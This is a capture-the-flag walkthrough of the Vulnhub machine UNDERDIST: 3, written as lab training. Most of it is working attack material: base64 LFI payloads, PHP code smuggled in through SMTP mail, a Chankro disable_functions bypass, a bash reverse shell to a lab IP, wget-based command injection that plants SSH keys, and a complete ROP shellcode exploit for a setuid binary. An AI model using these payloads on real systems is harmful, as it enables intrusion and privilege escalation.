# UNDERDIST 3

Difficulty:: #Medium
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [UNDERDIST: 3](https://www.vulnhub.com/entry/underdist-3,108/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:W/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:W/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Underc0de Weekend is a weekly challenge we (underc0de) are doing. The goal is to be the first to resolve it, to earn points and prizes (http://underc0de.org/underweekend.php).*


## Summary
UNDERDIST: 3 starts with an `HTML` comment in the index page with an `href` to `/v.php?a=YXNjaWkxLnR4dA==`, after decoding it with `base64` I identify the word `ascii1.txt`, that result to be an `LFI`. I notice that with a random file in the `GET` parameter, then I get a `500` status internal server error, which means probably the PHP code using the `require` function. The server also allows the `Postfix smtpd`, then I start to think in [`LFI to RCE via mail`](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#rce-via-mail), that works but after checking the `phpinfo()` function I notice that the `disable_functions` variable blocks almost all common `system` functions and the `open_basedir` variable also limits where directories I can reach, after some research I find [bypassing php disable functions with chankro from 0xdf](https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html), but due to the machine is from `2014`, it is a `32-bit` architecture, then I have to consider that to use the `chankro` command, and I get the reverse shell with the `www-data` user. When exploring the server webroot I find a custom endpoint `/b_gd214dg/foo.backup` that contains a private key, that result to belongs to the `cuervo` user, and with that I could get the `cuervo`'s shell. In the `underdist` user home I find two interesting files `cronping.py` and `ips.txt`, the Python script uses the `os.popen()` function to run the text of each line of the `ips.txt` file to run a `bash` command, and I can modify the `ips.txt` file, then I could perform an OS code injection if the `undersdist` user run that script, when I check the current process with the `Pspy` script, then I confirm it, then I send a payload to add a new public key to the `underdist` file ` ~/.ssh/authorized_keys`, and I can get the `underdist` shell.  In the `underdist` home I also find the binary `/home/underdist/.bin/echo`, after decompiling with `Ghidra` I find a stack buffer overflow in the `strcpy()` function, then with `GDB`, the `PEDA` tools, and the Return Oriented Programming `ROP`  paradigm I can exploit the binary and get the `root` shell and the `root` flag.

1. CWE-615: Inclusion of sensitive information in source code comments
2. CWE-98: Improper Control of Filename for Include/Require
3. CWE-22: Improper Limitation of a Pathname to a Restricted Directory
4. CWE-219: Storage of file with sensitive data under web root
5. CWE-88: Improper Neutralization of Argument Delimiters in a Command
6. CWE-269: Improper Privilege Management
7. CWE-120: Buffer Copy without Checking Size of Input

#VirtualBox #Nmap #Ghidra #BufferOverflow #ROP #PEDA #Pwntools #Python #GDB #Feroxbuster #Ffuf #setuid #Pspy #Postfix  #Vim  #Perl #Chankro #Python2 #LFI #PHP #open_basedir #disable_functions

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s8 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is `192.168.2.38`



When I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.2.38
...SNIPPED...
22/tcp    open     ssh        OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)
25/tcp    open     smtp       Postfix smtpd
80/tcp    open     http       Apache httpd 2.2.22 ((Debian))
...SNIPPED...
```
Then I identify 3 open ports, and the `OpenSSH 6.0p1` service runs on `22` TCP, and the `Postfix smtpd` service runs on `25` TCP, and the Apache `httpd 2.2.22` service runs on `80` TCP, and it runs on Debian, and I also find several filtered ports. but I test them with the `nc` command, and I could not establish a connection with any of them, then I ignore them.

## Normal use case
Given I access `http://192.168.2.38`, then I can see:



And there is nothing to interact.

## Dynamic detection
Endpoint with `GET` parameter that is likely vulnerable to `LFI`, and with `RCE` via `mail` reading.

When I look at `view-source:http://192.168.2.38/`, then I can see a comment on line 9:
```html
9 <!--<a href="v.php?a=YXNjaWkxLnR4dA==">foo</a>-->
```
When I access `http://192.168.2.38/v.php?a=YXNjaWkxLnR4dA==`, then I can see:



And there is nothing useful on that page, but I notice that the parameter value seems to be a base64 encoding. When I decode it with the `base64` command:
```shell
$ echo -n "YXNjaWkxLnR4dA==" | base64 -d
ascii1.txt
```
Then I can assume that maybe there is a local file inclusion vulnerability

Given I can access `http://192.168.2.38/v.php`, and it uses the GET parameter `a=YXNjaWkxLnR4dA==`, and the value is a `base64` encoding a filename, then it is likely that an LFI exists. When I use the `ffuf` command, and I use the list `LFI-Jhaddix.txt` of Seclist:
```shell
$ ffuf -w LFI-Jhaddix.txt:FUZZ -u "http://192.168.2.38/v.php?a=FUZZ"
```
Then I can see that some payloads work:



And all those payloads are base64 encoded, when I try with the first payload `Li4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==`, and it is `../../../../etc/passwd` encoded with `base64`, then I see the `/etc/passwd` file:



And I can identify the users `underdist` and `cuervo`, when I use the list `LFI-gracefulsecurity-linux.txt` of Seclists, but I need to encode all paths, then I will use `vim` to modify the file, when I open the list `LFI-gracefulsecurity-linux.txt` with `vim`, and I use the following commands in the `COMMAND` mode:
```vim
:%s!^!../../../..!
:%g/^/.!tr -d '\n' | base64
```
Then I add the `../../../..` to the beginning of each line, and I convert each line to `base64`, and I make sure I do not encode the break line `\n`, when I use the new list with the `ffuf` command:
```shell
$ ffuf -w LFI-gracefulsecurity-linux.b64.txt:FUZZ -u \
> "http://192.168.2.38/v.php?a=FUZZ"
```
Then I can see several matches:



And I check one by one, but I can not find anything useful, and I decided to do a dictionary attack on the webroot endpoints. When I use the `feroxbuster` command with a list of Seclists:
```shell
$ feroxbuster -w raft-medium-directories-lowercase.txt -u \
> 'http://192.168.2.38/' -x php,txt,md,jpg,xml,xls,xlsx
...SNIPPED...
200  GET  28l  135w  1254c http://192.168.2.38/index
200  GET  16l  22w   169c http://192.168.2.38/v.php
403  GET  10l  30w   293c http://192.168.2.38/server-status
301  GET  9l   28w   312c http://192.168.2.38/ascii
...SNIPPED...
```
When I access `http://192.168.2.38/ascii`, then I find another directory `letters`, and inside of that, there is a file called `ascii1.txt`, and with that, I can guess the absolute path of the webroot. When I use :
```
$ echo -n "../../../../var/www/ascii/letras/ascii1.txt" | base64
Li4vLi4vLi4vLi4vdmFyL3d3dy9hc2NpaS9sZXRyYXMvYXNjaWkxLnR4dA
```
Then I confirm that the webroot is in `/var/www`, when I access that value, then I can see the file `ascii1.txt`, when I test with a random value in the `GET` parameter, then I get a `500` status internal server error. When I combine the fact that the server includes a file, but if the file does not exist, the server fails, then I can guess the code of `v.php` using the `require` function, and it is likely that looks like this:
```php
file = base64_decode($_GET['a']);
require('ascii/letras'.file)
```
But after a while of reviewing files with the LFI, I got stuck, and I decided to see the other open ports again. When I remember that the TCP `25` is open, then I look for it in hacktricks, and I can see that it allows me to send emails, and that reminds me of the [`LFI to RCE via mail` section in `PayloadAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#rce-via-mail). :



And if I send an email to the current user of the `HTTP` service, then I could read it with the `LFI` in the default path, `/var/mail/<user>`, and if I send PHP code in the email, the `LFI` will execute it. When I test it, and I open a connection with the `Postfix` service using telnet:
```shell
$ telnet 192.168.2.38 25
```
And I send the following commands:
```shell
VRFY www-data
mail from: test@example.com
rcpt to: www-data
data
subject: testing
Look my id <?php system('id'); ?>
.
```
And now I encoded the mail path of the user `www-data`:
```shell
$ echo -n "../../../../var/mail/www-data" | base64
Li4vLi4vLi4vLi4vdmFyL21haWwvd3d3LWRhdGE=
```
Then I see with the `LFI` the email:



But the PHP code does not show the output, and that makes me think that the `system` function might be blocked, and to verify it, I am going to check the function `phpinfo()`. but first, I write a bash script to send emails more comfortably
And I called it [sendmail.sh](./static/sendemail.sh). When I send a new email:
```shell
$ ./sendemail.sh "<?php phpinfo(); ?>"
```
Then I can see the output of phpinfo:



And I can confirm that I can execute PHP code by combining the `LFI`, and the sending of emails from the `Postfix` service.

## Exploitation
OS injection via LD_PRELOAD in PHP mail, wrong privileges, buffer overflow

Given I can access `http://192.168.2.38/v.php`, and it uses the `GET` parameter `a=YXNjaWkxLnR4dA==`, and the value is a `base64` encoding a filename, and I can perform an `LFI`, and I can send emails with the `Postfix` service, and with that, I can inject PHP code, but the `system` PHP function seems to be disabled, then I have to find a way to inject OS commands. When I look at the `disable_functions` variable, then I can confirm that the system function is blocked. When I search in [hacktricks `disable_functions bypass`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass):



And all the initial functions it mentions are blocked, but I read about the `mail / mb_send_mail` function, and I decided to try it. When I send an email with the following payload:
```shell
$ ./sendemail.sh "<?php file_put_contents('/tmp/rs.sh', base64_decode(
> 'ZWNobyB3b3JrcyA+PiAvdmFyL3d3dy9hc2NpaS9sZXRyYXMvdGVzdC50eHQK'));
> chmod('/tmp/rs.sh', 0777);
> mail('', '', '', '', '-H \"exec /tmp/rs.sh\"'); ?>"
```
Then it does not work, but I want to get some feedback. When I google `get the error message of a PHP function`, then I find [display php errors](https://stackify.com/display-php-errors/), and it says that I can use:
```php
ini_set('display_errors', 1);
```
When I first try just write a file in the `/tmp` directory, and I send the following payload:
```shell
$ ./sendemail.sh "<?php ini_set('display_errors', 1);
> file_put_contents('/tmp/test', 'testing'); ?>"
```
And I use the LFI:
```shell
$ curl "http://192.168.2.38/v.php?a=Li4vLi4vLi4vLi4vdmFyL21haWwvd3d3LWR
> hdGE="

...SNIPPED...
<b>Warning</b>: file_put_contents(/tmp/test): failed to open stream:
Operation not permitted in <b>/var/mail/www-data</b> on line <b>20</b>
...SNIPPED...
```
Then I  can get at least one of the reasons why my payload fails, when I change the directory to `/var/tmp/test`, then the write test file works, and after some time, I find out the `open_basedir` in `phpinfo()`, and it only has the directories `/var` and `/etc`, And that is why I can not write to `/tmp`. When I try the `mail` payload with the `/var/tmp` directory, then it does not work, and I think it is because the mail function use `exec`, and that function is also blocked, but I think that I am on the right path. When I search in DuckDuckgo `bypass PHP disable_functions`
Then I find a [bypassing php disable functions with chankro from 0xdf](https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html):



And it mentions a tool to bypass `disable_functions` called `Chankro`. When I read how it works:
```
PHP in Linux calls a binary (sendmail) when the mail() function is
executed. If we have putenv() allowed, we can set the environment
variable "LD_PRELOAD", so we can preload an arbitrary shared object.
Our shared object will execute our custom payload(a binary or a bash
script) without the PHP restrictions, so we can have a reverse shell.
```
Then it looks promising. When I clone the [Chankro repository](https://github.com/TarlogicSecurity/Chankro):
```shell
$ git clone https://github.com/TarlogicSecurity/Chankro.git
```
And I write the file `test.sh` with:
```shell
#!/bin/sh
echo 'it works' > /var/tmp/res.txt
```
And inside the `Chankro` directory, I run:
```shell
$ python2 chankro.py --arch 64 --input test.sh --output chan.php \
> --path /var/tmp
```
Then it generates a PHP file called `chan.php`. When I send the `chan.php` file:
```shell
$ ./sendemail.sh --file chan.php
```
And I use the `LFI`, then I get a long output:
```shell
...SNIPPED...
Final-Recipient: rfc822; a@home.lan
Original-Recipient: rfc822; a
Action: failed
Status: 5.1.1
Diagnostic-Code: X-Postfix; unknown user: "a"
...SNIPPED...
```
And that means that at least the file doesn't fail, when I check if the file `/var/tmp/res.txt` was created:
```shell
./sendemail.sh "<?php ini_set('display_errors', 1); echo
> file_get_contents('/var/tmp/res.txt'); ?>"
```
And I use the LFI, then I get the output:
```shell
...SNIPPED...
<b>Warning</b>: file_get_contents(/var/tmp/res.txt): failed to open
stream: No such file or directory in <b>/var/mail/www-data</b> on line
<b>252</b><br />
...SNIPPED...
```
And after a lot of thinking about why the script is not executed, then I remember that the machine is from 2014, and maybe the architecture is not `64-bit`. When I google `PHP know if a server is 32 or 64 bits`, then I get that if the constant `PHP_INT_SIZE` is `4`, then it is `32-bit`, and if that constant is `8`, then it is `64-bit`- When I try it:
```shell
$ ./sendemail.sh "<?php ini_set('display_errors', 1);
> echo PHP_INT_SIZE; ?>"

...SNIPPED...
4
...SNIPPED...
```
And I check the `LFI`, then I can confirm that it is `32 bits`, and I have to change my `.so` file. When I write the following reverse shell payload to a file called `rs.sh`:
```shell
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'
```
And I run the `Chancro` script again, and I use the `--arch 32` switch:
```shell
$ python2 chankro.py --arch 32 --input rs.sh --output chan32.php \
> --path /var/tmp
```
And it creates the `PHP` script `chan32.php`, but I modify it to send a valid email to avoid the noisy errors messages, and I reset the machine, and I send it with the `bash` script:
```shell
$ ./sendemail.sh --file chan32.php
```
And I open a listener with the `nc` command:
```shell
$ nc -lnvp 1234
```
And I use the `LFI` to run the reverse shell, then it works:



## Lateral movement

When I start exploring the server:
```shell
www-data@Underdist:/var/www$ ls -la
drwxr-xr-x  3 root root 4096 Dec 31  2001 ascii
drwxr-xr-x  2 root root 4096 Dec 31  2001 b_gd214dg
-rw-r--r--  1 root root 1254 Dec 31  2001 index.html
-rw-r--r--  1 root root  282 Dec 31  2001 v.php
```
Then I see the directory `b_gd214dg`, and since it is in the webroot, then I can access it from the browser, and there is a file called `foo.backup`, and it contains a private key:



And I guess it could be the private key of the user `cuervo`, When I stored it in a file called `id_rsa_cuervo`, and I change the permissions:
```shell
$ chmod 400 id_rsa_cuervo
```
And I use ssh:
```shell
ssh -i id_rsa_cuervo cuervo@192.168.2.38
```
Then I can get the cuervo's shell:



## Lateral movement 2

When I explore the undersdist's home
```shell
cuervo@Underdist:/home/underdist$ ls -la
...SNIPPED...
-rwxr-xr-x 1 underdist underdist  541 Oct 27  2014 cronping.py
-rwxrwxrwx 1 underdist underdist   80 Oct 27  2014 ips.txt
```
Then I see the `ips.txt` file contains an `IP` list:
```
198.27.100.204
31.13.85.33
173.194.42.63
23.76.228.226
72.21.81.85
185.12.13.15
```
When I read the `cronping.py` file, then I can see that it uses the file `ips.txt`:



And it runs the function `os.popen()`, and it uses each line of the `ips.txt` file inside a `bash` command, and the user `cuervo` has permission to modify the `ips.txt` file, and that means I could inject `bash` commands, and I need to check if there is a process running in the background. When I download the `PSPY` on my local machine:
```shell
$ wget "https://github.com/DominicBreuker/pspy/releases/download/
> v1.2.1/pspy32"
```
And I send it to the target server with the `scp` command:
```shell
$ scp -i id_rsa_cuervo pspy32 cuervo@192.168.2.38:/home/cuervo
```
And I run it with the user `cuervo`:
```shell
$ cuervo@Underdist:~$ chmod +x pspy32
$ cuervo@Underdist:~$ ./pspy32
```
Then I can see that the user `underdist` is running it:



And it does it every minute, when I test the injection, and I append the following payload to the `ips.txt` file:
```shell
echo "junk || touch /tmp/test #" >> ips.txt
```
And I check the `/tmp` directory, then I can see the `test` file created by `undersdist`:
```shell
...SNIPPED...
-rw-r--r--  1 underdist underdist    0 Feb  4 14:58 test
...SNIPPED...
```
And now, I could do a reverse shell, but to practice something different, then I am going to add `ssh` keys to the user `underdist`. When I generate the keys on my local machine the `ssh-keygen` command:
```shell
$ ssh-keygen -t rsa -b 4096 -f ./id_rsa_underdist -P "" \
> -C "underdist@Underdist"
```
And I open an `HTTP` service with Python3:
```shell
$ python3 -m http.server 8000
```
And I open the file `ips.txt` with `nano`, And I add the following payload:
```shell
junk || wget -O ~/.ssh/id_rsa 192.168.2.31:8000/id_rsa_underdist #
junk || wget -O ~/.ssh/id_rsa.pub 192.168.2.31:8000/id_rsa_underdist.pub #
junk || chmod 400 ~/.ssh/id_rsa #
junk || cp ~/.ssh/id_rsa.pub ~/.ssh/authorized_keys #
```
And I wait a minute until I can see the request in the `HTTP` access log, and I copy and change the permission of the private key:
```shell
$ cp id_rsa_underdist id_rsa_under
$ chmod 400 id_rsa_under
```
And I use the `ssh` command:
```shell
$ ssh -i id_rsa_under underdist@192.168.2.38
```
Then I get the `underdist`'s shell:



## Privilege escalation

When I check the `underdist`'s home directory:
```shell
underdist@Underdist:~$ ls -la .bin/
...SNIPPED...
-rwsr-xr-x 1 root      root      4986 Oct 27  2014 echo
```
Then I see the file called `echo` has `setuid` privileges, when I use the `file` command:
```sjeññ
underdist@Underdist:~/.bin$ file echo
echo: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
dynamically linked (uses shared libs), for GNU/Linux 2.6.26,
BuildID[sha1]=0x497593cb264cf7340d3ae0612019f3ff78886540, not stripped
```
Then I can confirm that it is an executable, when I copy the binary to my local machine with the `scp` command:
```shell
$ scp -i id_rsa_under underdist@192.168.2.38:/home/underdist/.bin/echo .
```
And I decompiled it with `Ghidra`, then I can see a `stack buffer overflow` vulnerability:



And it happens because we can enter any size of data, and the `strcpy` function will copy it into a `300` bytes buffer.
When I check the security of the file with the `PWN Checksec` command:
```shell
$ pwn checksec echo
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```
Then I can see there is no security available, and I can analyze the memory addresses with `GDB`, and I can use return-oriented programming `ROP` to structure the payload. When I debug it with `GDB`, and I use the `PEDA` tools:
```shell
$ gdb -q echo
```
And I put a breakpoint in the `main` function:
```shell
$ gdb-peda$ b main
```
And I run it with an input of `300` bytes:
```shell
$ gdb-peda$ r $( perl -e 'print "A" x 300')
```
And I use the `dumprop` command of the `PEDA` tools to get the `ROP` gadgets:
```shell
$ gdb-peda$ dumprop
```
Then it creates a file called `echo-rop.txt` with all the gadgets found, when I put a breakpoint after the `strcpy` function:
```shell
$ gdb-peda$ b *0x0804846f
```
And before proceeding with execution, I check the stack:
```shell
$ gdb-peda$ x/128wx $esp
$ c
```
And I check the stack again, then I can identify all addresses I need:



And with that, I can identify the structure of my payload:
```shell
shellcode + 'A'*(304 - len(shellcode)) + rop_address*43
```
When I use the `PWN` tools to create the `shellcode`:
```python
>>> from pwn import ELF, context, asm, shellcraft
>>> context.binary = ELF('echo')
>>> shellcode = asm(shellcraft.sh())
>>> print(f'junk A={304 - len(shellcode)}', '\n', f"{shellcode=}")
junk A=260
shellcode=b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj
\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```
Then I  check the `echo-rop.txt` file, and I look for a single `pop` instruction, then I decided to use:
```shell
...SNIPPED...
0x8048493: pop ebp; ret
...SNIPPED...
```
When I test the payload, and I make it with `Perl`, and I test it with `GDB`, and I am careful to write the address in reverse order `little endian`:
```shell
$ gdb-peda$ r $(perl -e 'print "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x81
4$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80" . "A" x 260
 . "\x93\x84\x04\x08" x 43 ')
```
And I analyze the behavior of the stack, then I can tell there is a problem:



And it is that the `shellcode` is not interpreted well, and to avoid that, I will escape the printable bytes, when I use the following code in `Python3` to do it:
```python
>>> print("b'{}'".format(''.join('\\x{:02x}'.format(b) for b in
shellcode)))
b'\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01
\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89
\xe1\x31\xd2\x6a\x0b\x58\xcd\x80'
```
When I send the new payload:
```shell
$ gdb-peda$ r $(perl -e 'print "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62
\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9
\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" .
"A" x 260 . "\x93\x84\x04\x08" x 43 ')
```
Then I find another problem:



And the `strcpy` is including the `null` byte terminator from the `string`, and that overwrites the pointer to the payload, then I need to reduce the number of addresses from `43` to `42`, but I need to ensure that the last `ret` will take the payload pointer, and to do that, I need a gadget that has two `pop` instructions, and I find in the `echo-rop.txt` file:
```
0x80484f7: pop edi; pop ebp; ret
```
When I test the new payload in the target server:
```shell
underdist@Underdist:~/.bin$ ./echo r $(perl -e 'print "\x6a\x68\x68\x2f\x2f
\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72
\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b
\x58\xcd\x80" . "A" x 260 . "\xf7\x84\x04\x08" . "\x93\x84\x04\x08" x 41'
2>/dev/null)
```
Then I can get the `root` privileges, and I can get the `root` flag:




## Remediation
Given I can perform an LFI on the `/v.php` endpoint, then they should sanitize the input parameters, and if it is required to expose the `Postfix` service, then they must add the `mail` function to the `disable_functions`, and do not expose private keys in webroot, and limit the privileges of the files that are used in critical process, and use `strcpy_s()` instead of `strcpy()`.